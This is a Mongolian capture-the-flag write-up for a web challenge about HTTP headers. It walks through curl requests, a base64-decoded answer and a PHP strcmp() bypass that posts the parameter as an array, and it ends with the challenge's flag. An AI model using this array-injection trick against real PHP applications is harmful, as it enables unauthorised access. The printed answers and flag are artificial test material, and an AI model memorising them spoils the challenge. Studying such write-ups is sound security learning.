 ```yaml
---
layout: post
category : information-security
cover: https://cloud.githubusercontent.com/assets/14227502/18790645/29fbb290-81e2-11e6-9fbf-a5650585ba6b.jpg
tags : [haruul-zangi, writeup, web]
---
```

## Өгөгдөл
**Даалгаврын нэр:** Толгой <br/>
**Хандах хаяг:** http://103.48.116.193:8008/ <br/>
**Оноо:** 40 оноо <br/>

---
Энэ даалгаврын хувьд тэмцээний үеэр хийж чадаагүй бөгөөд толгой (Header) дээрээс ямар нэгэн зүйл олохоос өөр санаа байсангүй.

Тэмцээний маргааш нь [curl](https://curl.haxx.se) ашиглаж header-үүдийг харж болохыг мэдсэн бөгөөд тугийг олж чадсан юм.

```
$ curl -I http://103.48.116.193:8008/
```

> асуулт 1: Харуул Занги эхний тэмцээн болсон он? /хариултаа илээр явуулна уу. 'answer_level_one' /

гэсэн хариу ирэх бөгөөд илээр гэдэг нь *get* хүсэлтийг хэлж байна. Харуул занги анхны тэмцээн 2013 онд болсон бөгөөд дахин ``curl`` ашиглаж үзье.

---

```
$ curl -I http://103.48.116.193:8008/?answer_level_one=2013
```

> Найдвар: aDRydVVMLVpAbkcxXzIwMTY= /хариултыг илээр явуулна уу. 'answer_next_one'/

Өгөгдсөн [base64](https://en.wikipedia.org/wiki/Base64)-г тайлъя.

```
$ base64 -D <<< "aDRydVVMLVpAbkcxXzIwMTY="
```
  
``h4ruUL-Z@nG1_2016`` гэсэн тэмдэгт мөр гарч ирлээ.

---

```
$ curl -I http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016
```
> Учрыг ол : hint php strcmp() /хариултыг далдаар явуулна уу. 'answer_level_last_one'/

[http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016](http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016) хаяг руу хандаж үзвэл input форм харагдана. Өгөгдсөн hint-г уншвал шалгалтаа strcmp() функц ашиглаж хийдэг бололтой. strcmp-г bypass хийхийн тулд тэмдэгт мөр хэлбэрээр хүсэлт явуулахад л болно.

```
$ curl -d "answer_level_last_one[]=a" http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016
``` 
> FLAG: HZ{0nly_4rrAy_p4$$_1t}

Эцэст нь туг: **HZ{0nly_4rrAy_p4$$_1t}**